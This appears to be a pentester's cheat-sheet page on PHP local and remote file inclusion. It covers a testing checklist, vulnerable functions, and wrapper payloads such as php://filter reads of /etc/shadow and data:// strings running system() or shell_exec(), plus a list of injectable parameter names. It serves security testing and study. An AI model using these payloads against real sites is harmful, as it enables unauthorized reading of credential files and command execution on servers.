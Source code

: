 #### Testing

1. Invalid input
2. Regular page - index.php
3. Imply filter `php://filter/convert.base64-encode/resource=` to exfiltration of `php` source code, or file included
4. Host a remote file and test for remote file inclusion
	1. Wrappers `http://`, `ftp://`
	2. `expect://`

#### Vulnerable Functions 
| Language | LFI/RFI | Function | Caveats | RTFM |
| ---- | ---- | ---- | ---- | ---- |
| [[Vulnerable-PHP-Functions]] | Both | `include()` | `badquery?file=` then `php://filter/convert.base64-encode/resources=` | https://www.php.net/manual/en/function.include.php |
|  |  |  |  |  |

#### PHP Wrappers

PHP-Wrappers including mostly commonly used [[PHP-Wrappers]] or Data Wrappers can be utilised for LFI
- [RTFM PHP Wrappers](https://www.php.net/manual/en/wrappers.php)
- `php://filter` - [https://www.php.net/manual/en/wrappers.php.php](https://www.php.net/manual/en/wrappers.php.php)
	- `php://filter/resource=secret.txt`
	- `php://filter/convert.base64-encode/resource=secret.txt`
- `data://` - [https://www.php.net/manual/en/wrappers.data.php](https://www.php.net/manual/en/wrappers.data.php)
	- To exploit the `allow_url_include` setting needs to be enabled. 
			- Reference: [https://www.php.net/manual/en/filesystem.configuration.php](https://www.php.net/manual/en/filesystem.configuration.php)
	- `data://text/plain,<?php%20echo%20system('ls');?> 

Examples:
```php
// PHP filter
pathtraversal.com/find?file=php://filter/convert.base64-encode/resource=../../../../../etc/shadow
// Data Wrapper: `data` as URL, `text/plain` as mime-type and php code
data:text/plain,<?php%20phpinfo();%20?>
```
More examples:
```php
?data:text/plain,<?php echo shell_exec("dir") ?>
?base64:
```

#### Parametres

[Hacktricks reference - TR Bug Hunters](https://twitter.com/trbughunters/status/1279768631845494787)
```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
```